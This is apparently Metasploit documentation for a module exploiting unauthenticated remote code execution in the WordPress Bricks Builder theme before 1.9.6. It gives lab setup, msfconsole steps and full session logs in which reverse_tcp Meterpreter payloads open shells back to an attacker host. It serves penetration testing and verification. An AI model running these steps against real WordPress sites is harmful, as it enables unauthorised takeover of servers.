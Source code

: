 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Bricks Builder Theme, versions prior to 1.9.6.
The vulnerability allows attackers to execute arbitrary PHP code by leveraging
a nonce leakage to bypass authentication and exploit the eval() function usage within the theme.

To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Bricks Builder Theme, ensuring the version is below 1.9.6.
3. Activate Bricks Builder.
4. Create a model with a default page (to ensure the nonce is on index.php, add some elements).

## Verification Steps

1. Set up a WordPress instance with the Bricks Builder Theme (version < 1.9.6).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_bricks_builder_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No option

## Scenarios

### Successful Exploitation Against Local WordPress with Bricks Builder Theme 1.8

**Setup**:

- Local WordPress instance with Bricks Builder Theme version 1.8.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_bricks_builder_rce
```
4. Set `RHOSTS` to the local IP (e.g., 192.168.1.10).
5. Configure other necessary options (TARGETURI, SSL, etc.).
6. Launch the exploit:
```
exploit
```

**Expected Results**:

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.

**Example**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 > search bricks

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_bricks_builder_rce  2024-02-19       excellent  Yes    Unauthenticated RCE in Bricks Builder Theme


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_bricks_builder_rce

msf6 > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_bricks_builder_rce) > options

Module options (exploit/multi/http/wp_bricks_builder_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                         html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to WordPress
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ilPaBylkCKr      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_bricks_builder_rce) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf6 exploit(multi/http/wp_bricks_builder_rce) > set rhosts localhost
rhosts => localhost
msf6 exploit(multi/http/wp_bricks_builder_rce) > set rport 8888
rport => 8888
msf6 exploit(multi/http/wp_bricks_builder_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Nonce retrieved: 953563d296
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.20.0.2:39856) at 2024-02-26 21:51:11 +0100

meterpreter > sysinfo 
Computer     : 172.20.0.2
OS           : Debian 11.8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_bricks_builder_rce) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_bricks_builder_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Nonce retrieved: 953563d296
[*] Sending stage (39927 bytes) to 172.20.0.2
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 172.20.0.2:49678) at 2024-02-26 22:02:56 +0100

meterpreter > sysinfo
Computer    : 65e1e703e433
OS          : Linux 65e1e703e433 6.4.10-060410-generic #202308111154 SMP PREEMPT_DYNAMIC Fri Aug 11 12:00:45 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > 
```
